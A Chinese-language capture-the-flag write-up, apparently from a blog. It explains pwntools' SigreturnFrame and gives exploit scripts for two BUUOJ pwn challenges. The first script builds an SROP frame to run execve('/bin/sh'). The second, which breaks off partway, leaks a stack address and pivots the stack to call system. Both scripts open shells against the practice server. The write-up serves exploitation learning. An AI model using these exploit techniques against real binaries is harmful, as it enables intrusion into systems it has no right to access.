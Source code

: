 我们在做SROP的时候可以直接调用pwntools的SigreturnFrame来快速生成这个SROP帧

SigreturnFrame() 简介：这个函数用于生成恢复上下文用的FakeFrame，使用前先要设定arch类型，实例化后按需要设置寄存器的值，最后str处理拼接到payload中。

pwntools中的SigreturnFrame中并不需要填写rt_sigreturn的地址，我们只需要确保执行rt_sigreturn的时候栈顶是SigreturnFrame就行。因此我们可以通过syscall指令调用rt_sigreturn而不必特意去寻找这个调用的完整实现。此外，根据文档和源码实现，由于32位分为原生的i386（32位系统）和i386 on amd64（64位系统添加32位应用程序支持）两种情况，这两种情况的段寄存器设置有所不同。

exp如下：

```
from pwn import *

p = remote('node3.buuoj.cn',28663)
context.binary = './pwn'
#context.terminal = ['gnome-terminal','-x','sh','-c']

main_addr = 0x0004004ED
mov_rax_15_ret = 0x4004DA
syscall_addr = 0x400517

payload1 = '/bin/sh\x00'*2 + p64(main_addr)
p.send(payload1)
p.recv(0x20)
bin_sh_addr =u64(p.recv(8)) - 280

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = bin_sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_addr

payload2 = '/bin/sh\x00'*2 + p64(mov_rax_15_ret) + p64(syscall_addr) + str(frame)
p.send(payload2)

p.interactive()
```

# ciscn_2019_es_2

在自己艰难而漫长的调试下，总算是搞出来了……

这道题更像是ciscn_2019_s_3解法一和[Black Watch 入群题]PWN的结合版，即考察动态调试算偏移和栈迁移，这里不再详细叙述解题步骤了，仅贴上exp，包含两种解法，分别是利用已有的call _system或者plt表中的system，但核心思想都是一样的

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 27801)
#p = process('./pwn')
e = ELF('./pwn')
payload1 = b'a' * 40
p.recvuntil("name?\n")
p.send(payload1)
old_ebp = u32(p.recvuntil("\xff")[-4:])
print(hex(old_ebp))
#gdb.attach(p, 'b *0x080485E0')
offset1 = 0x38
offset2 = 0x2C
system_plt_addr = e.plt['system']
new_stack_esp = old_ebp - offset1
bin_sh_addr = old_ebp - offset2
leave_ret_addr = 0x080485FD
#if offset2 = 0x30
#call_system_addr = 0x08048559
```